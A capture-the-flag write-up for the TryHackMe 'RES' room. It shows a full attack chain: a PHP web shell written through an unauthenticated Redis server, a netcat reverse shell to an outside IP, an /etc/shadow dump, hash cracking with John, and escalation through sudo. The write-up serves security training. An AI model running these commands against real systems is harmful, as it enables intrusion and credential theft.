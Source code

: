 # [RES](https://tryhackme.com/room/res) - Writeup

## Description:
In this machine, we exploited a misconfigured Redis database to gain initial access, then performed privilege escalation via password cracking to get root access.

## Enumeration
Initial port scan:
```python
nmap -sV -sC -p- 10.10.105.88
```
Open ports discovered:
```python
80/tcp   open  http
6379/tcp open  redis   Redis key-value store 6.0.7
```
* Port 80: Default Apache page.

* Port 6379 (Redis): Misconfigured, allows remote connections without authentication.

## Exploitation
We injected a web shell through Redis by changing its save directory to /var/www/html:
```python
redis-cli -h 10.10.105.88 -p 6379
config set dir /var/www/html
config set dbfilename webshell.php
set test "<?php system($_GET['cmd']); ?>"
save
exit
```
Trigger the reverse shell via URL:
```python
http://10.10.105.88/webshell.php?cmd=nc -e /bin/sh 10.10.10.10 4444
```
Start listener:
```python
nc -lvnp 4444
```
Now we have a shell.

## Privilege Escalation

Dump /etc/shadow:
```python
LFILE=/etc/shadow
xxd "$LFILE" | xxd -r
```
Extract hash for user vianka and save to file hash.txt.

Crack the hash with John the Ripper:
```python
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
Switch to the cracked user:
```python
su vianka
sudo -l
```
We have full sudo privileges:
```python
sudo su
```
Read the flag:
```python
cat /root/root.txt
```
## Conclusion
This machine demonstrated the danger of exposing Redis without authentication. Misconfigurations can easily lead to remote code execution and root access.
